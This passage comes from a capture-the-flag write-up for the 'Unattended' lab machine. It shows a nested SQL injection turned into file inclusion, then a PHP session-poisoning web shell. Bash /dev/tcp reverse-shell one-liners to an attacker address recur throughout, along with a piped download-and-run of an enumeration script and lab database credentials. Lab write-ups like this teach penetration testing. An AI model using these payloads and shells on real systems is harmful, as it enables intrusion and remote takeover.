          r = requests.get("https://www.nestedflanders.htb/index.php?id=%s" % payload, proxies=proxies, verify=False)
          soup = BeautifulSoup(r.text, 'html.parser')
          m = re.search("\*\*BEGIN\*\*(.*)\*\*END\*\*", str(soup.body), flags=re.DOTALL)
          if m:
              print(m.group(1))
          else:
              print("No output")
    

Running it with the "id" cmd we get RCE as www-data. Another way of tackling this problem as [Alamot](https://alamot.github.io/unattended_writeup) demonstrated, is to explore the initial SQL injection manually using 'ORDER BY' 
    
    
      https://www.nestedflanders.htb/index.php?id=587' ORDER BY 1 --+
      https://www.nestedflanders.htb/index.php?id=587' ORDER BY 2 --+
    
    

` 

These 2 queries bring up 2 different results, one is the default index page, the other is an error. So the next step would be to try to return a name like "contact" using an inner query: 

Which returned us the "about" page instead of the "contact" page. The outer query should return the path of the php file to be loaded, So by trying the same trick, we have to nest our 2nd SQL Injection :
    
    
      about' UNION SELECT '/etc/passwd' --+
    
    

Like this: 
    
    
      https://www.nestedflanders.htb/index.php?id=587' UNION SELECT "about' UNION SELECT '/etc/passwd' --+" --+
    
    

Which becomes a 2nd order SQL Injection, Which should also become a Local File Inclusion. 

And the LFI was successful! Now the thing is, if we try to **Include** the php files they will invariably be run and executed, we won't be able to read their source code. So the trick here is, to use a filter conversion to b64encode these php files. That way we are able to read their contents, saving us alot of time. 
    
    
      'php://filter/read=convert.base64-encode/resource=/path/to/file/we/want/to/read/sourcecode'
    
    

So we use this b64encoding filter in our next request: 
    
    
      https://www.nestedflanders.htb/index.php?id=587' UNION SELECT "about' UNION SELECT 'php://filter/read=convert.base64-encode/resource=/var/www/html/index.php' --+" --
    
    

` 
    
    
      <****?php
      $servername = "localhost";
      $username = "nestedflanders";
      $password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
      $db = "neddy";
      $conn = new mysqli($servername, $username, $password, $db);
      $debug = False;
    
      include "6fb17817efb4131ae4ae1acae0f7fd48.php";
    
      function getTplFromID($conn) {
      	global $debug;
      	$valid_ids = array (25,465,587);
      	if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {
      			$sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
      	} else {
      		$sql = "SELECT name FROM idname where id = '25'";
      	}
      	if ($debug) { echo "sqltpl: $sql  
    \n"; }
    
      	$result = $conn->query($sql);
      	if ($result->num_rows > 0) {
      	while($row = $result->fetch_assoc()) {
      		$ret = $row['name'];
      	}
      	} else {
      		$ret = 'main';
      	}
      	if ($debug) { echo "rettpl: $ret  
    \n"; }
      	return $ret;
      }
    
      function getPathFromTpl($conn,$tpl) {
      	global $debug;
      	$sql = "SELECT path from filepath where name = '".$tpl."'";
      	if ($debug) { echo "sqlpath: $sql  
    \n"; }
      	$result = $conn->query($sql);
      	if ($result->num_rows > 0) {
      		while($row = $result->fetch_assoc()) {
      			$ret = $row['path'];
      		}
      	}
      	if ($debug) { echo "retpath: $ret  
    \n"; }
      	return $ret;
      }
    
      $tpl = getTplFromID($conn);
      $inc = getPathFromTpl($conn,$tpl);
      ?****>
      
      
      
    
      
    
    
        
    
    # Ne(ste)d Flanders Portfolio
    
    
      
    
    
    
      
    
    
      
    
    
      <****?php
    
      $sql = "SELECT i.id,i.name from idname as i inner join filepath on i.name = filepath.name where disabled = '0' order by i.id";
      if ($debug) { echo "sql: $sql  
     \n"; }
    
      $result = $conn->query($sql);
      if ($result->num_rows > 0) {
      	while($row = $result->fetch_assoc()) {
      		//if ($debug) { echo "rowid: ".$row['id']."  
    \n"; } // breaks layout
      		echo '
    
    ['.$row['name'].'](index.php?id='.$row\['id'\].')
    
    ';
      		}
      } else {
      ?****>
    
    [main](index.php?id=25)
    
    
      	
    
    [about](index.php?id=465)
    
    
      	
    
    [contact](index.php?id=587)
    
    
      	<****?php
      }
    
      ?****>
    
     
      
    
     
    
    
      
    
    
      
    
    
      
      <****?php
      include("$inc");
      ?****>
    
      
    
     
      
    
     
      <****?php if ($debug) { echo "include $inc;  
     \n"; } ?****>
      
    
      <****?php
      $conn->close();
      ?****>

Another way of finding this is by exploiting the nginx misconfiguration present on the box as [ ippsec](https://www.youtube.com/watch?v=2SATzCQY0Zw) points out, you can verify it by going to /dev/ and the misconfiguration is that in the nginx config the trailing slash hasn't been added. Therefore going to /dev../html/index.php gets us to the php page we found earlier, but without interpreting the sourcecode, allowing us to read it: 

    
    
      [ 10.10.14.7/23 ] [ /dev/pts/5 ] [~/_HTB/Unattended]
      → curl -sk https://www.nestedflanders.htb/dev../html/index.php > index.php
    

So from here we have a few interesting things, most importantly the credentials to the database: nestedflanders:1036913cf7d38d4ea4f79b050f171e9fbf3f5e . Now in order to reach the RCE from our current LFI we need to remember the 6fb17817efb4131ae4ae1acae0f7fd48.php file our sqlmap scan found earlier which has also been referenced into the index.php sourcecode, so it is definitely a hint for the next step: 
    
    
      https://www.nestedflanders.htb/index.php?id=587' UNION SELECT "about' UNION SELECT 'php://filter/read=convert.base64-encode/resource=/var/www/html/6fb17817efb4131ae4ae1acae0f7fd48.php' --+" --+
    
    

` 
    
    
      <****?php
      session_start();
      if (isset($_SESSION['user_name'])){
              $user_name = $_SESSION['user_name'];
      }
    
      foreach ($_COOKIE as $key => $val) {
              $_SESSION[$key] = $val;
      }
    
      /* removed everything because of undergoing investigation, please check dev and staging */

Which is obviously also viewable if we use previous method suggested by ippsec, that we could actually get the file thanks to the nginx misconfiguration: 

And this is where it gets interesting, this code says that every cookie name+value pair is saved inside the PHP session. PHP sessions are stored in temporary files inside a specific folder. This folder is set using session.save_path in the php.ini file "/var/lib/php/sessions". From here we could read the php.ini file to know this location or try out well known paths of php session storage, which in this case was **/var/lib/php/sessions**.

Therefore, we can set a cookie with a specific value: 
    
    
      <****?php passthru($_REQUEST['cmd'])?****>

And this will be stored inside a file at /var/lib/php/sessions/sess_PHPSESSID. And then we just need to include and/or run this file with the second order SQL injection LFI:
    
    
      https://www.nestedflanders.htb/index.php?id=587' UNION SELECT "about' UNION SELECT '/var/lib/php/sessions/sess_d0rosoogt4afnin1qtic4ju612' --+" --+&cmd;=whoami
    
    

Obviously we need to change the cookie after sess_ to the current cookie, in this case: 

 

So with this request, we get the following result: 
    
    
      GET /index.php?prometheus=whoami&id;=587'+union+select+"1'+union+select+'/var/lib/php/sessions/sess_skthtqmi4agio2nrpl9u7vql43'--+-"--+- HTTP/1.1
      Host: www.nestedflanders.htb
      User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate
      DNT: 1
      Connection: close
      Cookie: PHPSESSID=skthtqmi4agio2nrpl9u7vql43; NOTHING=
      Upgrade-Insecure-Requests: 1
    

` 

Which basically tells us that we have been able to inject php code. So since we have code execution we'll get a reverse shell, but on which port, that is a big question mark because this box actually has iptables enabled to prevent any funky traffic on uncommon ports, we can check that by printing out the contents of /etc/iptables/rules.v4: 
    
    
      GET /index.php?prometheus=cat+/etc/iptables/rules.v4&id;=587'+union+select+"1'+union+select+'/var/lib/php/sessions/sess_skthtqmi4agio2nrpl9u7vql43'--+-"--+- HTTP/1.1
      Host: www.nestedflanders.htb
      User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate
      DNT: 1
      Connection: close
      Cookie: PHPSESSID=skthtqmi4agio2nrpl9u7vql43; NOTHING=
      Upgrade-Insecure-Requests: 1
    

` 

So we see that we can communicate with the box only through port 80 and 443. So our reverse shell one liner will be to our local port 443: 
    
    
      bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'
    
    

Url encode it in burpsuite: 
    
    
      bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.7/443+0>%261'
    
    

Get the following request: 
    
    
      GET /index.php?prometheus=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.7/443+0>%261'&id;=587'+union+select+"1'+union+select+'/var/lib/php/sessions/sess_skthtqmi4agio2nrpl9u7vql43'--+-"--+- HTTP/1.1
      Host: www.nestedflanders.htb
      User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate
      DNT: 1
      Connection: close
      Cookie: PHPSESSID=skthtqmi4agio2nrpl9u7vql43; NOTHING=
      Upgrade-Insecure-Requests: 1
    
    

And catch the incoming reverse shell connection: 

    
    
    
    [ 10.10.14.7/23 ] [ /dev/pts/6 ] [~]
    → sudo nc -lvnp 443
    [sudo] password for nothing:
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.126] 58662
    bash: cannot set terminal process group (579): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@unattended:/var/www/html$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    www-data@unattended:/var/www/html$ ls
    ls
    0f710bba8d16303a415266af8bb52fcb.php
    47c1ba4f7b1edf28ea0e2bb250717093.php
    6fb17817efb4131ae4ae1acae0f7fd48.php
    787c75233b93aa5e45c3f85d130bfbe7.gif
    787c75233b93aa5e45c3f85d130bfbe7.php
    bootstrap.min.css
    bootstrap.min.js
    index.html
    index.nginx-debian.html
    index.php
    jquery.min.js
    www-data@unattended:/var/www/html$ which python && which python3
    which python && which python3
    

So here we want to spawn our tty shell using python, but python isn't there for us, so we'll spawn it with the script utility: 
    
    
    www-data@unattended:/var/www/html$ script -h
    script -h
    
    Usage:
     script [options] [file]
    
    Make a typescript of a terminal session.
    
    Options:
     -a, --append            append the output
     -c, --command <****command> run command rather than interactive shell
     -e, --return            return exit code of the child process
     -f, --flush             run flush after each write
         --force             use output file even when it is a link
     -q, --quiet             be quiet
     -t, --timing[= <****file>]   output timing data to stderr (or to FILE)
     -V, --version           output version information and exit
     -h, --help              display this help and exit
    
    
    For more details see script(1).
    www-data@unattended:/var/www/html$ script -qc /bin/bash /dev/null
    script -qc /bin/bash /dev/null

So first step here is to enumerate which users are on the box: 
    
    
    
      www-data@unattended:/var/www/html$ cat /etc/passwd
      cat /etc/passwd
      root:x:0:0:root:/root:/bin/bash
      daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
      bin:x:2:2:bin:/bin:/usr/sbin/nologin
      sys:x:3:3:sys:/dev:/usr/sbin/nologin
      sync:x:4:65534:sync:/bin:/bin/sync
      games:x:5:60:games:/usr/games:/usr/sbin/nologin
      man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
      lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
      mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
      news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
      uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
      proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
      www-data:x:33:33:www-data:/var/www:/bin/bash
      backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
      list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
      irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
      gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
      nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
      systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
      systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
      systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
      systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
      _apt:x:104:65534::/nonexistent:/bin/false
      messagebus:x:105:109::/var/run/dbus:/bin/false
      sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
      guly:x:1000:1000:guly,,,:/home/guly:/bin/bash
      mysql:x:107:112:MySQL Server,,,:/nonexistent:/bin/false
    

As we saw earlier, guly is a good candidate, so we could try to privesc to user guly since we probably have his password. But unfortunately it is not, so moving on, 
    
    
    $servername = "localhost";
      $username = "nestedflanders";
      $password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
    

So this is the mysql credentials we found earlier, since sqlmap had a hard time enumerating all the database contents, and we didn't even see the other tables, we can poke around it from inside the box this time. 
    
    
    www-data@unattended:/var/www/html$ mysql -u nestedflanders -D neddy -p
    mysql -u nestedflanders -D neddy -p
    Enter password: 1036913cf7d38d4ea4f79b050f171e9fbf3f5e
    
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A
    
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 61
    Server version: 10.1.37-MariaDB-0+deb9u1 Debian 9.6
    
    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
    
    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
    
    MariaDB [neddy]>> show tables;
    show tables;
    +-----------------+
    | Tables_in_neddy |
    +-----------------+
    | config          |
    | customers       |
    | employees       |
    | filepath        |
    | idname          |
    | offices         |
    | orderdetails    |
    | orders          |
    | payments        |
    | productlines    |
    | products        |
    +-----------------+
    11 rows in set (0.00 sec)
    
    

And we are logged in as the user nestedflanders! now we'll print the tables, and the hint here is to get into the config table, and update the option_value to another reverse shell:
    
    
      update config set option_value = "bash -c 'bash -i >& /dev/tcp/10.10.14.7/80 0>&1'" where id = '86';
    

Since 80 is the only second port opened, we have to use it: 
    
    
    
      MariaDB [neddy]> update config set option_value = "bash -c 'bash -i >& /dev/tcp/10.10.14.7/80 0>&1'" where id = '86';
      <****sh -c 'bash -i > & /dev/tcp/10.10.14.7/80 0>&1'" where id = '86';
      Query OK, 1 row affected (0.00 sec)
      Rows matched: 1  Changed: 1  Warnings: 0
    
      MariaDB [neddy]> select * from config where id = '86'
      select * from config where id = '86'
          -> ;
      ;
      +----+--------------+--------------------------------------------------+
      | id | option_name  | option_value                                     |
      +----+--------------+--------------------------------------------------+
      | 86 | checkrelease | bash -c 'bash -i >& /dev/tcp/10.10.14.7/80 0>&1' |
      +----+--------------+--------------------------------------------------+
      1 row in set (0.00 sec)
    
    

Here we wait a bit, and get a reverse shell once again this time as the user guly, and we cat out the user flag: 
    
    
      [ 10.10.14.7/23 ] [ /dev/pts/5 ] [~]
      → sudo nc -lvnp 80
      [sudo] password for nothing:
      listening on [any] 80 ...
      connect to [10.10.14.7] from (UNKNOWN) [10.10.10.126] 47268
      bash: cannot set terminal process group (1658): Inappropriate ioctl for device
      bash: no job control in this shell
      guly@unattended:~$ id
      id
      uid=1000(guly) gid=1000(guly) groups=1000(guly),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),47(grub),108(netdev)
      guly@unattended:~$ cat user.txt
      cat user.txt
      9bXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We got a second reverse shell and now have the user flag. 

## **Part 3 : Getting Root Access**

In order to privesc from the user guly to root, we can enumerate the box using LinEnum.sh:

_local machine:_
    
    
      $cp /path/to/linEnum.sh .
      $python -m SimpleHTTPServer 8080
    

` _remote machine:_
    
    
      curl http://10.10.14.16:8081/LinEnum.sh | bash
      wget http://10.10.14.16:8081/LinEnum.sh -O - | bash
      cat < /dev/tcp/10.10.14.3/8080 | bash
    
    
    
      guly@unattended:~$ which wget && which curl
      which wget && which curl
      /usr/bin/wget
    

Since curl isn't there, we use the wget line. Looking at the results, we don't even get anything interesting sadly, apart from us being part of the grub group as we saw initially when we got our second reverse shell. so we look over at the output of the mount cmd:
    
    
    
      guly@unattended:~$ mount
      mount
      sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
      proc on /proc type proc (rw,relatime,hidepid=2)
      udev on /dev type devtmpfs (rw,nosuid,relatime,size=1014344k,nr_inodes=253586,mode=755)
      devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=000)
      tmpfs on /run type tmpfs (rw,nosuid,noexec,relatime,size=205252k,mode=755)
      **/dev/mapper/sda2_crypt on / type ext4 (rw,relatime,errors=remount-ro,data=ordered)**
      securityfs on /sys/kernel/security type securityfs (rw,nosuid,nodev,noexec,relatime)
      tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev,noexec)
      tmpfs on /run/lock type tmpfs (rw,nosuid,nodev,noexec,relatime,size=5120k)
      tmpfs on /sys/fs/cgroup type tmpfs (ro,nosuid,nodev,noexec,mode=755)
      cgroup on /sys/fs/cgroup/systemd type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/lib/systemd/systemd-cgroups-agent,name=systemd)
      pstore on /sys/fs/pstore type pstore (rw,nosuid,nodev,noexec,relatime)
      cgroup on /sys/fs/cgroup/perf_event type cgroup (rw,nosuid,nodev,noexec,relatime,perf_event)
      cgroup on /sys/fs/cgroup/blkio type cgroup (rw,nosuid,nodev,noexec,relatime,blkio)
      cgroup on /sys/fs/cgroup/freezer type cgroup (rw,nosuid,nodev,noexec,relatime,freezer)
      cgroup on /sys/fs/cgroup/pids type cgroup (rw,nosuid,nodev,noexec,relatime,pids)
      cgroup on /sys/fs/cgroup/devices type cgroup (rw,nosuid,nodev,noexec,relatime,devices)
      cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (rw,nosuid,nodev,noexec,relatime,net_cls,net_prio)
      cgroup on /sys/fs/cgroup/memory type cgroup (rw,nosuid,nodev,noexec,relatime,memory)
      cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (rw,nosuid,nodev,noexec,relatime,cpu,cpuacct)
      cgroup on /sys/fs/cgroup/cpuset type cgroup (rw,nosuid,nodev,noexec,relatime,cpuset)
      systemd-1 on /proc/sys/fs/binfmt_misc type autofs (rw,relatime,fd=28,pgrp=1,timeout=0,minproto=5,maxproto=5,direct,pipe_ino=9241)
      mqueue on /dev/mqueue type mqueue (rw,relatime)
      debugfs on /sys/kernel/debug type debugfs (rw,relatime)
      hugetlbfs on /dev/hugepages type hugetlbfs (rw,relatime)
      tmpfs on /tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
      tmpfs on /var/tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
      /dev/sda1 on /boot type ext2 (rw,relatime,block_validity,barrier,user_xattr,acl)
    
    

That which stands out is /dev/mapper/sda2_crypt, combine that with us being part of the grub group, maybe we modified grub to automap an encrypted drive, that is because a system do not automatically boots up on said encrypted drive, because it requires a password to read it's contents, such as the LUKS encrypted drives. To enumerate further, we can find which files are owned by grub:
    
    
      find / -group grub -ls 2>/dev/null
    
    
    
    
      guly@unattended:~$ find / -group grub -ls 2>/dev/null
      find / -group grub -ls 2>/dev/null
             16  19331 -rw-r-----   1 root     grub     19715792 Aug 23  2019 /boot/initrd.img-4.9.0-8-amd64
    
    

And you see that the image that grub has access to is this initrd.img file. Looking at the date is also hinting us that this is the intended path because it is roughly the same date as the user.txt flag. so we download it:

    
    
      [ 10.10.14.7/23 ] [ /dev/pts/7 ] [~/_HTB/Unattended]
      → file initrd.img
      initrd.img: gzip compressed data, last modified: Fri Aug 23 09:26:41 2019, from Unix, original size modulo 2^32 62110208
    
    

It's gzip compressed, so we can decompress it with zcat: 
    
    
      zcat initrd.img | cpio -i
    
    

-i means extract, -d means make directories, -m means preserve modified time, -v for verbose, 
    
    
    
      [ 10.10.14.7/23 ] [ /dev/pts/7 ] [_HTB/Unattended/init]
      → ls
      initrd.img
    
      [ 10.10.14.7/23 ] [ /dev/pts/7 ] [_HTB/Unattended/init]
      → which zcat && which cpio
      /usr/bin/zcat
      /usr/bin/cpio
    
      [ 10.10.14.7/23 ] [ /dev/pts/7 ] [_HTB/Unattended/init]
      → zcat initrd.img | cpio -idmv
    
    

Once extracted we'll filter out the extra data using the date from which the certificate was issued: 

Using the find command with the dates(19 December 2018 and ):
    
    
    
      [ 10.10.14.7/23 ] [ /dev/pts/7 ] [_HTB/Unattended/init]
      → find . -type f -newermt 2018-12-19 ! -newermt 2019-12-21 -ls
        5775196    912 -rwxr-x---   1 nothing  nothing    933240 Aug 23  2019 ./sbin/uinitrd
        5898937     84 -rw-r--r--   1 nothing  nothing     82756 Aug 23  2019 ./lib/modules/4.9.0-8-amd64/modules.dep.bin
        5898879      4 -rw-r--r--   1 nothing  nothing       177 Aug 23  2019 ./lib/modules/4.9.0-8-amd64/modules.devname
        5898880      8 -rw-r--r--   1 nothing  nothing      5327 Aug 23  2019 ./lib/modules/4.9.0-8-amd64/modules.builtin.bin
        5898934      4 -rw-r--r--   1 nothing  nothing       310 Aug 23  2019 ./lib/modules/4.9.0-8-amd64/modules.softdep
        5898938     56 -rw-r--r--   1 nothing  nothing     53740 Aug 23  2019 ./lib/modules/4.9.0-8-amd64/modules.dep
        5898936    252 -rw-r--r--   1 nothing  nothing    256371 Aug 23  2019 ./lib/modules/4.9.0-8-amd64/modules.alias
        5898935    232 -rw-r--r--   1 nothing  nothing    237478 Aug 23  2019 ./lib/modules/4.9.0-8-amd64/modules.alias.bin
        5898881    184 -rw-r--r--   1 nothing  nothing    186301 Aug 23  2019 ./lib/modules/4.9.0-8-amd64/modules.symbols.bin
        5898933    148 -rw-r--r--   1 nothing  nothing    151421 Aug 23  2019 ./lib/modules/4.9.0-8-amd64/modules.symbols
        5636894      4 -rwxr-xr-x   1 nothing  nothing       501 Aug 23  2019 ./scripts/init-top/udev
        5636893      4 -rw-r--r--   1 nothing  nothing       314 Aug 23  2019 ./scripts/init-top/ORDER
        5636909      4 -rw-r--r--   1 nothing  nothing        85 Aug 23  2019 ./scripts/local-bottom/ORDER
        5636902      4 -rw-r--r--   1 nothing  nothing        77 Aug 23  2019 ./scripts/init-bottom/ORDER
        5636905      4 -rw-r--r--   1 nothing  nothing        82 Aug 23  2019 ./scripts/local-premount/ORDER
        5636890      4 -rw-r--r--   1 nothing  nothing        82 Aug 23  2019 ./scripts/local-block/ORDER
        5637835     12 -rwxr-xr-x   1 nothing  nothing      9470 Dec 20  2018 ./scripts/local-top/cryptroot
        5637833      4 -rw-r--r--   1 nothing  nothing       162 Aug 23  2019 ./scripts/local-top/ORDER
        5636554      4 -rw-r--r--   1 nothing  nothing        37 Aug 23  2019 ./boot/guid
        5899964      4 -rw-r--r--   1 nothing  nothing        11 Aug 23  2019 ./etc/hostname
        5899971      0 -rw-r--r--   1 nothing  nothing         0 Aug 23  2019 ./etc/fstab
        5899968      4 -rw-r--r--   1 nothing  nothing        77 Aug 23  2019 ./etc/motd
        5899959      4 -rw-r--r--   1 nothing  nothing      2074 Aug 23  2019 ./etc/ld.so.cache
        5899967      4 -rw-r--r--   1 nothing  nothing      4024 Aug 23  2019 ./etc/boottime.kmap.gz
        5899977      4 -rw-r--r--   1 nothing  nothing        84 Aug 23  2019 ./conf/conf.d/cryptroot
        5899978      4 -rw-r--r--   1 nothing  nothing        12 Dec 20  2018 ./conf/conf.d/resume
        5899973      4 -rw-r--r--   1 nothing  nothing        37 Aug 23  2019 ./conf/guid
        5899975      4 -rw-r--r--   1 nothing  nothing        16 Aug 23  2019 ./conf/arch.conf
    
    

That's good enough, but we'll narrow it down to what we're looking for which is crypt: 
    
    
    
      [ 10.10.14.7/23 ] [ /dev/pts/7 ] [_HTB/Unattended/init]
      → find . -type f -newermt 2018-12-19 ! -newermt 2019-12-21 -ls | grep crypt
        5637835     12 -rwxr-xr-x   1 nothing  nothing      9470 Dec 20  2018 ./scripts/local-top/cryptroot
        5899977      4 -rw-r--r--   1 nothing  nothing        84 Aug 23  2019 ./conf/conf.d/cryptroot
    
    

The interesting part here is cryptroot, so looking at it's contents: 

So here we have a comment from guly, which is definitely the hint we need, then the cryptopen command, that tries to decrypt the drive, which is calling /sbin/unitrd to do so with the following string: 
    
    
      c0m3s3f0ss34nt4n1
    
    

Which we could have also found using a simple recursive grep search: 
    
    
      [ 10.10.14.7/23 ] [ /dev/pts/4 ] [_HTB/Unattended/init]
      → grep -RI password . && grep -RI guly .
      ./bin/cryptroot-unlock:	echo "cryptsetup: cryptsetup failed, bad password or options?" >&2
      ./scripts/local-top/cryptroot:	# Try to get a satisfactory password $crypttries times
      ./scripts/local-top/cryptroot:				cryptkeyscript="plymouth ask-for-password --prompt"
      ./scripts/local-top/cryptroot:      # guly: we have to deal with lukfs password sync when root changes her one
      ./scripts/local-top/cryptroot:				message "cryptsetup: cryptsetup failed, bad password or options?"
      ./scripts/local-top/cryptroot:			message "cryptsetup: unknown fstype, bad password or options?"
      ./scripts/local-top/cryptroot:      # guly: we have to deal with lukfs password sync when root changes her one
    

So if we try this command on our machine, we get a password: 
    
    
      [ 10.10.14.7/23 ] [ /dev/pts/4 ] [_HTB/Unattended/init]
      → cd sbin
    
      [ 10.10.14.7/23 ] [ /dev/pts/4 ] [Unattended/init/sbin]
      → ls -lash | grep initrd
      912K -rwxr-x---   1 nothing nothing 912K Aug 23  2019 uinitrd
    
      [ 10.10.14.7/23 ] [ /dev/pts/4 ] [Unattended/init/sbin]
      → ./uinitrd c0m3s3f0ss34nt4n1
      supercazzola
    

Sadly, both c0m3s3f0ss34nt4n1 and supercazzola are not the root password, so moving on, we'll examine this uinitrd inside the box Looking at the output of the mount cmd we need a share that doesn't have the noexec flag:
    
    
    
      guly@unattended:~$ mount | grep tmp
      mount | grep tmp
      udev on /dev type devtmpfs (rw,nosuid,relatime,size=1014344k,nr_inodes=253586,mode=755)
      tmpfs on /run type tmpfs (rw,nosuid,noexec,relatime,size=205252k,mode=755)
      tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev,noexec)
      tmpfs on /run/lock type tmpfs (rw,nosuid,nodev,noexec,relatime,size=5120k)
      tmpfs on /sys/fs/cgroup type tmpfs (ro,nosuid,nodev,noexec,mode=755)
      tmpfs on /tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
      tmpfs on /var/tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
    
    

Sadly as you can see, the noexec flag is everywhere so we have to do it locally, we'll use the strace utility to examine the binary: 
    
    
      [ 10.10.14.7/23 ] [ /dev/pts/4 ] [Unattended/init/sbin]
      → sudo apt install strace
    
      [ 10.10.14.7/23 ] [ /dev/pts/4 ] [Unattended/init/sbin]
      → strace ./uinitrd c0m3s3f0ss34nt4
      execve("./uinitrd", ["./uinitrd", "c0m3s3f0ss34nt4"], 0x7ffe59e95778 /* 44 vars */) = 0
      uname({sysname="Linux", nodename="nowhere", ...}) = 0
      brk(NULL)                               = 0x704000
      brk(0x7051c0)                           = 0x7051c0
      arch_prctl(ARCH_SET_FS, 0x704880)       = 0
      readlink("/proc/self/exe", "/home/nothing/_HTB/Unattended/in"..., 4096) = 47
      brk(0x7261c0)                           = 0x7261c0
      brk(0x727000)                           = 0x727000
      access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
      open("**/etc/hostname** ", O_RDONLY)         = 3
      fstat(3, {st_mode=S_IFREG|0644, st_size=8, ...}) = 0
      mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7ff522874000
      read(3, "nowhere\n", 4096)              = 8
      close(3)                                = 0
      munmap(0x7ff522874000, 4096)            = 0
      open("**/boot/guid** ", O_RDONLY)            = -1 ENOENT (No such file or directory)
      fstat(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(0x88, 0x4), ...}) = 0
      mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7ff522874000
      write(1, "supercazzola", 12supercazzola)            = 12
      exit_group(0)                           = ?
      +++ exited with 0 +++
    

We can see the binary checks /etc/hostname and /boot/guid 
    
    
    
      guly@unattended:~$ cat /boot/guid && cat /etc/hostname
      cat /boot/guid && cat /etc/hostname
      C0B604A4-FE6D-4C14-A791-BEB3769F3FBA
      unattended
    
    

So we change them accordingly :
    
    
      [ 10.10.14.7/23 ] [ /dev/pts/4 ] [Unattended/init/sbin]
      → sudo su
    
      [ 10.10.14.7/23 ] [ /dev/pts/4 ] [Unattended/init/sbin]
      → echo 'unattended' > /etc/hostname
    
      [ 10.10.14.7/23 ] [ /dev/pts/4 ] [Unattended/init/sbin]
      → echo 'C0B604A4-FE6D-4C14-A791-BEB3769F3FBA' > /boot/guid
    

Run it again: 
    
    
      [ 10.10.14.7/23 ] [ /dev/pts/4 ] [Unattended/init/sbin]
      → strace ./uinitrd c0m3s3f0ss34nt4n1
      execve("./uinitrd", ["./uinitrd", "c0m3s3f0ss34nt4n1"], 0x7fff817b6008 /* 44 vars */) = 0
      uname({sysname="Linux", nodename="nowhere", ...}) = 0
      brk(NULL)                               = 0x9f0000
      brk(0x9f11c0)                           = 0x9f11c0
      arch_prctl(ARCH_SET_FS, 0x9f0880)       = 0
      readlink("/proc/self/exe", "/home/nothing/_HTB/Unattended/in"..., 4096) = 47
      brk(0xa121c0)                           = 0xa121c0
      brk(0xa13000)                           = 0xa13000
      access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
      open("/etc/hostname", O_RDONLY)         = 3
      fstat(3, {st_mode=S_IFREG|0644, st_size=11, ...}) = 0
      mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f4c5652d000
      read(3, "unattended\n", 4096)           = 11
      close(3)                                = 0
      munmap(0x7f4c5652d000, 4096)            = 0
      open("/boot/guid", O_RDONLY)            = 3
